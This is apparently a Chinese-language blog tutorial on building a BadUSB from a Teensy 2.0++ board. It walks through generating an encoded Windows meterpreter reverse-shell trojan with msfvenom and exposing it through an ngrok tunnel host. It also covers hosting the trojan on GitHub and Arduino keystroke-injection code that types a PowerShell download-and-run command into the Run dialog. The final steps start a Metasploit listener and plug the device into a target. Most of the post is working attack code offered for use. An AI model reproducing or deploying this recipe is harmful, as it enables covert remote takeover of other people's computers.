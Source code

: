 ```yaml
---
title: 渗透利器-Teensy（低配版BadUSB）
date: 2018-09-25 
tags: kali
layut: post
---
```


### 准备工作
* 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
* Arduino编译器
    - 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino") 
* Teensy插件
    - 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")
    
![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)

### 1.下载好arduino后直接解压
```linux
⚡ /home/da1sy/arduino-1.8.7# ./arduino
```
### 2.安装Teensy插件
```
⚡ /home/da1sy/arduino-1.8.7# ./TeensyduinoInstall.linux64
```
**注意将插件安装到arduino的解压目录下**
### 3.arduino修改配置
打开软件后将 **工具** 下配置修改如下
![2](http://da1sy.github.io/assets/images/9-Yue/teensy-2.jpg)

### 4.利用ngrok实现内网穿透
#### 在https://www.ngrok.cc/ 注册账号后开通tcp隧道
![3](http://da1sy.github.io/assets/images/9-Yue/teensy-3.png)
#### 下载客户端
```linux
⚡/home/da1sy/桌面/linux_amd64# ./sunny clientid 隧道ID号
```
![4](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
### 5.利用msfvenom生成windows端木马
```linux
 ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe  
```
**lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
#### **最后将生成的木马放到github项目上实现远程下载**
### 6.编辑arduino代码
```arduino
char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
char *command2 = "%HOMEPATH%\\windows.exe ";
//将连接的地址改为自己github的地址
void setup() { 
    delay(5000);
    omg(command1);
    delay(15000);
    omg(command2);
 }
  
void loop() {}

void omg(char *SomeCommand)
{
  Keyboard.set_modifier(128); 
  Keyboard.set_key1(KEY_R);
  Keyboard.send_now(); 
  Keyboard.set_modifier(0); 
  Keyboard.set_key1(0); 
  Keyboard.send_now(); 
  delay(1500);
  Keyboard.println(SomeCommand);
}
```
#### 编辑好后点**验证**，然后插入**Teensy**板子，最后按一下板子上的按钮完成上传

### 7.metasploit开启监听
```
⚡ /home/da1sy/# msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 127.0.0.1   
msf exploit(multi/handler) > set lport 6666        //ngrok开通隧道时填写的本地地址与端口号
msf exploit(multi/handler) > exploit
```
![5](http://da1sy.github.io/assets/images/9-Yue/teensy-5.png)

### 8.最后对目标插入badusb
效果图如下
![6](http://da1sy.github.io/assets/images/9-Yue/teensy-s1.gif)

监听端
![7](http://da1sy.github.io/assets/images/9-Yue/teensy-s2.gif)

> 最后反弹的会话好像是出现了毛病，不过总体上嘛 问题不大

### 一些其他的代码
```
有时间再补
```
